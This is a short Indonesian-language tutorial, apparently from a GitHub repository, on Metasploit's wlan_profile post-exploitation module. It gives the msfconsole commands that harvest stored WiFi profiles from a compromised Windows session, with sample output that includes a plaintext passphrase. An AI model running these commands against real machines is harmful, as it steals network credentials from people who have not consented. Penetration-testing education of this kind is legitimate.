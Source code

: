 # wlan_profile 

Module `wlan_profile` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengambil informasi profil jaringan WiFi yang tersimpan di komputer target, termasuk `SSID`, `jenis autentikasi`, dan `password` jika tersedia.

## Cara Penggunaan di Metasploit

```
use post/windows/wlan/wlan_profile
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[+] Wireless LAN Profile Information 
GUID: {28b9c93f-a298-45f8-b88c-8f898895ee2b} Description: Realtek 8814AU Wireless LAN 802.11ac USB NIC State: The interface is not connected to any network.
 Profile Name: COMPASS CIKARANG
<?xml version="1.0"?>
<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
	<name>COMPASS CIKARANG</name>
	<SSIDConfig>
		<SSID>
			<hex>434F4D504153532043494B4152414E47</hex>
			<name>COMPASS CIKARANG</name>
		</SSID>
	</SSIDConfig>
	<connectionType>ESS</connectionType>
	<connectionMode>auto</connectionMode>
	<MSM>
		<security>
			<authEncryption>
				<authentication>WPA2PSK</authentication>
				<encryption>AES</encryption>
				<useOneX>false</useOneX>
			</authEncryption>
			<sharedKey>
				<keyType>passPhrase</keyType>
				<protected>false</protected>
				<keyMaterial>qwerty12345</keyMaterial>
			</sharedKey>
		</security>
	</MSM>
	<MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3">
		<enableRandomization>false</enableRandomization>
	</MacRandomization>
</WLANProfile>

[*] WlanAPI Handle Closed Successfully
[*] Post module execution completed
```
